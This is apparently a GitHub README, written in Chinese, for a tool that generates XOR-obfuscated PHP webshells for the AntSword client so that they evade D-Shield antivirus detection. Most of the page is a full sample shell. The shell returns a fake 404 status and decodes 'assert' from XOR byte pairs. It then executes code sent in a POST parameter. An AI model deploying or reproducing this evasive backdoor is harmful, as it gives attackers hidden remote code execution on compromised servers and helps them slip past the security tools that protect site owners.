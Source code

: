 # as_php_xor_bypass
利用随机异或无限免杀D盾蚁剑版 (thx @SardineFish & @Medicean)



PHP原版请移步:https://github.com/yzddmr6/php_xor_bypass

PYTHON版请移步:https://github.com/c0ny1/WorkScripts/blob/master/php-xor-bypass/php_xor_bypass.py


### 生成 Shell 样例

```
<?php 
header('HTTP/1.1 404');
class COMI { 
    public $c='';
    function __destruct() {
        $_0 = "\xfc" ^ "\x9d";
        $_1 = "\x4" ^ "\x77";
        $_2 = "\xb4" ^ "\xc7";
        $_3 = "\x9b" ^ "\xfe";
        $_4 = "\x93" ^ "\xe1";
        $_5 = "\xe7" ^ "\x93";
        $db =$_0.$_1.$_2.$_3.$_4.$_5;
        return @$db($this->c);
    }
}
$comi = new COMI();
@$comi->c = $_POST['yzddmr6'];
?>
```
